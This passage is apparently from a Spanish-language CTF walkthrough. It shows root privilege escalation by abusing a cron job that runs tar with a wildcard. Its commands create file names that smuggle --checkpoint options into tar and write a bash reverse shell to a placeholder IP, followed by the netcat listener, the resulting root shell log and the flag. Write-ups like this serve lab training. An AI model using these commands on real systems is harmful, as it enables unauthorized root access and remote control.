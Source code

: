 Veremos varias cosas interesantes entre ellas que se esta ejecutando un `crontab` y esta haciendo lo siguiente:

```shell
cd /opt/secret/ && tar -zcf /var/backups/secret.tgz *
```

Por lo que veremos aqui se podria intentar hacer un ataque llamado `Tar arbitrary command execution`, y podremos hacerlo de la siguiente forma:

URL = [Referencia de la vulnerabilidad y el ataque](https://medium.com/@althubianymalek/linux-privilege-escalation-using-tar-wildcards-a-step-by-step-guide-55771aae063f)

```shell
cd /opt/secret/
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=bash\ shell.sh
echo "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" > shell.sh
```

Ahora tendremos que esperar estando a la escucha:

```shell
nc -lvnp <PORT>
```

Una vez esperado un rato, si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.154] 53294
bash: cannot set terminal process group (15964): Inappropriate ioctl for device
bash: no job control in this shell
root@hostname:/opt/secret# whoami
whoami
root
```

Por lo que vemos habremos obtenido acceso a una `shell` de `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
d5806296126a30ceebeaa172ff9c9151
```
